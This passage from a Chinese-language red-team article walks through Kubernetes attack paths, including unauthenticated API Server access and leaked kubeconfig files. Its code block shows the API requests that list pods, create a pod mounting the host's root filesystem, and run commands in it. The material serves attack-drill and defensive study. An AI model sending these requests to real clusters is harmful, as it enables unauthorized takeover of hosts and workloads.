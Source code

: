 随着越来越多企业开始上云的步伐，在攻防演练中常常碰到云相关的场景，例如：公有云、私有云、混合云、虚拟化集群等。以往渗透路径是「外网突破 -&gt; 提权 -&gt; 权限维持 -&gt; 信息收集 -&gt; 横向移动 -&gt; 循环收集信息」，直到获得重要目标系统。但随着业务上云以及虚拟化技术的引入改变了这种格局，也打开了新的入侵路径，例如：

- 通过虚拟机攻击云管理平台，利用管理平台控制所有机器
- 通过容器进行逃逸，从而控制宿主机以及横向渗透到K8s Master节点控制所有容器
- 利用KVM-QEMU/执行逃逸获取宿主机，进入物理网络横向移动控制云平台

目前互联网上针对云原生场景下的攻击手法零零散散的较多，仅有一些厂商发布过相关矩阵技术，但没有过多的细节展示，本文基于微软发布的Kubernetes威胁矩阵进行扩展，介绍相关的具体攻击方法。

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-b6f0dd6b79f36f939cfb6e8015da5b53cbbf5199.png)

**红色标志是攻击者最为关注的技术点。**

### 初始访问

- API Server未授权访问
- kubelet未授权访问
- Docker Daemon 公网暴露
- K8s configfile 泄露

#### API Server未授权访问

API Server作为K8s集群的管理入口，通常使用 8080 和 6443 端口，其中 8080 端口无需认证，6443 端口需要认证且有TLS 保护。如果开发者使用 8080 端口，并将其暴露在公网上，攻击者就可以通过该端口的API，直接对集群下发指令。

另一种场景是运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使6443端口允许匿名用户以管理员权限向集群内部下发指令。

```php
#查看pods
https://192.168.4.110:6443/api/v1/namespaces/default/pods?limit=500
#创建特权容器
https://192.168.4.110:6443/api/v1/namespaces/default/pods/test-4444
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
#执行命令
https://192.168.4.110:6443/api/v1/namespace/default/pods/test-4444/exec?command=whoami
```

创建特权容器详细解释：

![](https://shs3.b.qianxin.com/attack_forum/2022/01/attach-fbaadac5d846906d14da3ae26b89983dcada7ee6.png)

**创建特权容器**

#### K8s configfile 泄露

K8s configfile作为K8s集群的管理凭证，其中包含有关K8s集群的详细信息（API Server、登录凭证）。

如果攻击者能够访问到此文件(如办公网员工机器入侵、泄露到 Github 的代码等)，就可以直接通过 API Server 接管 K8s 集群，带来风险隐患。
